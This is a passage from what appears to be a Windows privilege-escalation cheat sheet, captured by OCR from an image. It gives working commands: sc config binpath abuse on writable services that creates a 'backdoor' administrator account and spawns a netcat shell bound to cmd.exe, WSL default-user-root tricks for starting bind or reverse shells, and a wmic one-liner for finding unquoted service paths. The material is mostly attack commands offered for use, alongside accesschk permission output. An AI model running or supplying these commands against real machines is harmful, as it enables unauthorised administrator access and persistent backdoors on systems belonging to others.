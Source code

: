 sc config upnphost depend=""

Using accesschk from Sysinternals.

$ accesschk.exe -uwcqv "Authenticated Users" \* /accepteula
RW SSDPSRV
        SERVICE\_ALL\_ACCESS
RW upnphost
        SERVICE\_ALL\_ACCESS

$ accesschk.exe -ucqv upnphost
upnphost
  RW NT AUTHORITY\SYSTEM
        SERVICE\_ALL\_ACCESS
  RW BUILTIN\Administrators
        SERVICE\_ALL\_ACCESS
  RW NT AUTHORITY\Authenticated Users
        SERVICE\_ALL\_ACCESS
  RW BUILTIN\Power Users
        SERVICE\_ALL\_ACCESS

$ sc config &lt;vuln-service&gt; binpath="net user backdoor backdoor123 /add"
$ sc config &lt;vuln-service&gt; binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
$ sc stop &lt;vuln-service&gt;
$ sc start &lt;vuln-service&gt;
$ sc config &lt;vuln-service&gt; binpath="net localgroup Administrators backdoor /add"
$ sc stop &lt;vuln-service&gt;
$ sc start &lt;vuln-service&gt;

EoP - Windows Subsystem for Linux \(WSL\)

Technique borrowed from Warlockobama's tweet

With root privileges Windows Subsystem for Linux \(WSL\) allows users to create a bind shell on any port \(no elevation needed\). Don't know the root password? No problem just set the default user to root W/ .exe --default-user root. Now start your bind shell or reverse.

wsl whoami
./ubuntun1604.exe config --default-user root
wsl whoami
wsl python -c 'BIND\_OR\_REVERSE\_SHELL\_PYTHON\_CODE'

Binary bash.exe can also be found in C:\Windows\WinSxS\amd64\_microsoft-windows-lxssbash\_\[...\]\bash.exe

Alternatively you can explore the WSL filesystem in the folder C:\Users\%USERNAME%\AppData\Local\Packages\CanonicalGroupLimited.UbuntuonWindows\_79rhkp1fndgsc\LocalState\rootfs\

EoP - Unquoted Service Paths

The Microsoft Windows Unquoted Service Path Enumeration Vulnerability. All Windows services have a Path to its executable. If that path is unquoted and contains whitespace or other separators, then the service will attempt to access a resource in the parent path first.

wmic service get name,displayname,pathname,startmode \|findstr /i "Auto" \|findstr /i /v "C:\Windows\\" \|findstr /i /v """
